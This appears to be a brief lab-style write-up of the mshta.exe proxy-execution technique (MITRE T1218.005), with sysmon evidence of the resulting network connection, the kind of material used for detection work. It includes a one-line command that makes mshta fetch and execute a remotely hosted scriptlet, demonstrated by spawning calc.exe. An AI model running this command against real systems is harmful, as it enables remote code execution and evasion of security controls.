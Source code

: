 Invoking the scriptlet file hosted remotely
```
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/file.sct")).Exec();close();
```

calc.exe is spawned by mshta.exe:

![image](https://github.com/user-attachments/assets/0165509e-73ad-4a73-a70f-f9be47a1eb37)

sysmon logs for mshta establishing network connections:

![image](https://github.com/user-attachments/assets/01232198-2016-4da8-a19c-902be70a96ee)

# References
- https://attack.mitre.org/techniques/T1218/005/
